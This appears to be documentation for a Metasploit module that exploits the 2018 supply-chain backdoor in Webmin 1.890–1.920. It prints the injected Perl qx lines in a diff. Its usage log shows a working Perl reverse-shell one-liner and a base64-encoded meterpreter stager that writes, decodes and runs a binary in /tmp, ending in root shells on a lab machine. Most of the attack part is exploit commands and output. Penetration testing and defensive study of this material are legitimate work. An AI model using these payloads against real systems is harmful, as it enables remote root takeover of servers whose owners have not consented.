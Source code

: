 ## Introduction

This module exploits a backdoor in Webmin versions 1.890 through 1.920.
Only the SourceForge downloads were backdoored, but they are listed as
official downloads on the project's site.

Unknown attacker(s) inserted Perl `qx` statements into the build server's
source code on two separate occasions: once in April 2018, introducing
the backdoor in the 1.890 release, and in July 2018, reintroducing the
backdoor in releases 1.900 through 1.920.

Only version 1.890 is exploitable in the default install. Later affected
versions require the expired password changing feature to be enabled.

## Analysis

The backdoored code can compared across space and time with `diff3(1)`.

```
wvu@kharak:~/Downloads$ diff3 webmin-1.{890,930,920}/password_change.cgi
====2
1:1c
3:1c
  #!/usr/bin/perl
2:1c
  #!/usr/local/bin/perl
====1
1:12c
  $in{'expired'} eq '' || die $text{'password_expired'},qx/$in{'expired'}/;
2:12c
3:12c
  $miniserv{'passwd_mode'} == 2 || die "Password changing is not enabled!";
====3
1:40c
2:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'});
3:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
====3
1:200c
2:200c
  # Show ok page
3:200c

wvu@kharak:~/Downloads$
```

## Setup

1. `wget https://prdownloads.sourceforge.net/webadmin/webmin-1.890.tar.gz`
2. `tar xf webmin-1.890.tar.gz`
3. `cd webmin-1.890`
4. `./setup.sh`

## Targets

```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Options

**RPORT**

Set this to the Webmin port. The default is 10000.

**TARGETURI**

Set this to the Webmin base path. The default is `/`.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(unix/webapp/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"172.28.128.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (172.28.128.1:4444 -> 172.28.128.5:58374) at 2019-08-21 16:49:24 -0500

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu-xenial 4.4.0-141-generic #167-Ubuntu SMP Wed Dec 5 10:40:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
msf5 exploit(unix/webapp/webmin_backdoor) > set target 1
target => 1
msf5 exploit(unix/webapp/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/FgFBP.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tDGmH' < '/tmp/FgFBP.b64' ; chmod +x '/tmp/tDGmH' ; '/tmp/tDGmH' ; rm -f '/tmp/tDGmH' ; rm -f '/tmp/FgFBP.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 172.28.128.5
[*] Meterpreter session 2 opened (172.28.128.1:4444 -> 172.28.128.5:58376) at 2019-08-21 16:49:33 -0500
[*] Command Stager progress - 100.00% done (819/819 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-141-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
